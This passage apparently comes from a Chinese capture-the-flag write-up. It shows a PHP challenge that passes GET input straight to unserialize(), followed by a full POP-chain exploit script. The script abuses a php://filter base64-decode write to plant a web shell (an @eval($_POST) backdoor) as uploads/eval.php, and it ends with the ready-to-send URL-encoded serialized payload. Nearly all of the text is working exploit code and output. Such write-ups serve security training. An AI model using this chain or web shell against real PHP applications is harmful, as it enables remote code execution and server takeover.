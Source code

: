 ```
    }

}

if (isset($_GET['src']))
{
    highlight_file(__FILE__);
}

$dir = "uploads/";

if (!is_dir($dir))
{
    mkdir($dir);
}
unserialize($_GET["data"]);

```

> 
POP链_1


```
&lt;?php

class A {
    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store,$key,$expire)
    {
        $this-&gt;key=$key;
        $this-&gt;expire=$expire;
        $this-&gt;store=$store;
    }
}

class B{
    public $option;
}

$b=new B();
$b-&gt;options['serialize']='base64_decode';
$b-&gt;options['data_compress']=false;
$b-&gt;options['prefix']='php://filter/write=convert.base64-decode/resource=uploads/';

$a=new A($b,'eval.php',0);
$a-&gt;autosave=false;
$a-&gt;cache=array();
$a-&gt;complete=base64_encode('abc'.base64_encode('&lt;?php @eval($_POST["a"]); ?&gt;'));
//必须添加三个字符使得shell之前的字符串进行base64解码时不影响到shell

echo urlencode(serialize($a));
=&gt;
O%3A1%3A%22A%22%3A6%3A%7Bs%3A8%3A%22%00%2A%00store%22%3BO%3A1%3A%22B%22%3A2%3A%7Bs%3A6%3A%22option%22%3BN%3Bs%3A7%3A%22options%22%3Ba%3A3%3A%7Bs%3A9%3A%22serialize%22%3Bs%3A13%3A%22base64_decode%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A58%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3Duploads%2F%22%3B%7D%7Ds%3A6%3A%22%00%2A%00key%22%3Bs%3A8%3A%22eval.php%22%3Bs%3A9%3A%22%00%2A%00expire%22%3Bi%3A0%3Bs%3A8%3A%22autosave%22%3Bb%3A0%3Bs%3A5%3A%22cache%22%3Ba%3A0%3A%7B%7Ds%3A8%3A%22complete%22%3Bs%3A60%3A%22YWJjUEQ5d2FIQWdRR1YyWVd3b0pGOVFUMU5VV3lKaElsMHBPeUEvUGc9PQ%3D%3D%22%3B%7D

```